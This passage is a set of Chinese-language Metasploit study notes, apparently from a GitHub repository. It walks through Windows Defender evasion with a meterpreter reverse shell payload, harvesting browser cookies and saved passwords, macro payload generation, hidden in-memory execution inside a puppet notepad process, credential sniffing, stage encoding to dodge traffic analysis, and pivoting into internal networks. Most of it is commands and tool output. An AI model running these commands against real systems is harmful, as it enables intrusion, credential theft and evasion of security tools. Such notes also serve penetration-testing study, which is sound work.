


```
show evasion   # 查看免杀模块

info xxx       # 使用info可以查看指定模块的信息

use use evasion/windows/windows_defender_exe  # 使用windows defender模块
set payload windows/meterpreter/reverse_tcp   # 设置payload

show options   # 查看配置项

```


### POST模块

当我们拿到一个meterpreter之后，接下来就可以做后渗透的工作了，这里的post模块主要就是为post所准备的。

其中包含android、ios、linux、windows、浏览器的信息收集。

收集windows电脑上ie浏览器的信息，如：history、cookie、保存的用户名、密码等

```shell
meterpreter > run post/windows/gather/enum_ie
```




### msf plugins

```
load -l  # 查看内置的插件
load -s  # 加载插件列表

load request   # 导入request插件，该插件能帮助我们发送一些请求
unload request # 取消加载request插件
```


### msf数据库

```
systemctl start postgresql.service       # 开启postgresql
msfdb init                               # 开启和初始化数据库

msf6>db_status                           # 查看数据库是否连接
db_connect -y /usr/share/metasploit-framework/config/database.yml # 使用yml文件的方式连接数据库

hosts 	# 查看已经渗透过得主机


workspace 								 # 分出不同的工作

Command       Description
    -------       -----------
    analyze       Analyze database information about a specific address or address range
    db_connect    Connect to an existing data service
    db_disconnec  Disconnect from the current data service
    t
    db_export     Export a file containing the contents of the database
    db_import     Import a scan result file (filetype will be auto-detected)
    db_nmap       Executes nmap and records the output automatically
    db_rebuild_c  Rebuilds the database-stored module cache (deprecated)
    ache
    db_remove     Remove the saved data service entry
    db_save       Save the current data service connection as the default to reconnect on startup
    db_status     Show the current data service status
    hosts         List all hosts in the database
    klist         List Kerberos tickets in the database
    loot          List all loot in the database
    notes         List all notes in the database
    services      List all services in the database
    vulns         List all vulnerabilities in the database
    workspace     Switch between database workspaces
```


###  msf 代码结构

在kali当中，msf安装在/usr/share/metasploit-framework/目录下面。

当我们自定义代码时，只要将代码/模块放在/home/用户名/.msf4/对应目录下面即可。


### msf 宏攻击

这个攻击主要是针对的是office，wps可能没有涉及。

```
msfvenom -l fromat  

# 宏攻击主要是针对这两种文件格式，但是vba-exe可能会存在一点问题。
vba
vba-exe
```


DDE攻击




### msf攻击VNC



这里实验的时候vnc的版本尽量要低一点，否则可能会出现问题。


## msf后渗透

### execute - 隐蔽执行

拿到meterpreter之后就可以进行后渗透工作了。

execute 用法：

```
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -a   The arguments to pass to the command.
    -c   Channelized I/O (required for interaction).
    -d   The 'dummy' executable to launch when using -m.
    -f   The executable command to run.
    -h   Help menu.
    -H   Create the process hidden from view.
    -i   Interact with the process after creating it.
    -k   Execute process on the meterpreters current desktop
    -m   Execute from memory.
    -p   Execute process in a pty (if available on target platform)
    -s   Execute process in a given session as the session user
    -t   Execute process with currently impersonated thread token
    -z   Execute process in a subshell
```


```
execute -f <cmd>  			  # 执行一个可执行的米宁
execute -f notepad  		  # 执行notepad程序
execute -f notepad -a a.txt   # 使用notpad打开a.txt文本文件，
execute -f notepad -a a.txt -H  # 隐蔽执行
		-f -i				  # 创建一个交互式的进程，如: -i -f cmd

## 傀儡进程：
一个程序想要运行，就必须要加载到内存当中，这时该程序的进程会在内存当中开辟出一份内存空间，这里的进程就可以理解为是一个外壳。在这个内存空间里面在执行这个程序的线程，也就是真正要运行的代码。所以有些时候可能就会在一个notepad程序的进程（外层）中运行我们指定的恶意代码而不是原本notepad程序自己的代码，这是这个notepad进程就被称为“傀儡进程”。

# 在notepad程序外壳当中运行cmd程序
execute -f /root/cmd.exe -m -d notepad
		-i -H 隐藏远程view，在本地进行交互
```


### 流量劫持

这里使用msf中的sniffer进行完成。



```
use sniffer


Sniffer Commands
================

Command     	Description
-------     	-----------
sniffer_dump		Retrieve captured packet data to PCAP file
sniffer_interfaces	Enumerate all sniffable network interfaces
sniffer_release		Free captured packets on a specific interface instead of 					 downloading them   
sniffer_start		Start packet capture on a specific interface
sniffer_stats		View statistics of an active capture
sniffer_stop		Stop packet capture on a specific interface

```

通过sniffer可以抓取http、ftp等明文的数据包中敏感的信息，但是比如像https这种加密的数据这种就需要另外的模块了，这里可以使用NetRipper进行测试。


### 流量分析

给stage加密，这里使用的payload为：windows/x64/meterpreter/reverse_tcp

```
show advanced  # 查看高级指令

msf6 exploit(multi/handler) > set StageEncoder x64/xor_dynamic  # 设置编码
set EnableStageEncoding true  # 启用设置的编码
```




### Pivot

网络拓扑图如下：



这里的webserver是不能访问外网的，假如我们已经获取到了win10这个机器的meterpreter，我们现在需要对win10上面的内网进行一个端口扫描。


首先需要明白的是，这里我们不能使用kali直接对内网的主机进行扫描，所以我们这里需要先在meterpreter中获取路由表。

```shell
run post/multi/manage/autoroute
```


查看已经添加的路由表：

```
run post/multi/manage/autoroute cmd=print
									add
									autoadd
									delete
									default
```






扫描内网机器centos7机器上开放的端口：




### 域前置

通常与cdn有关。


****


完结
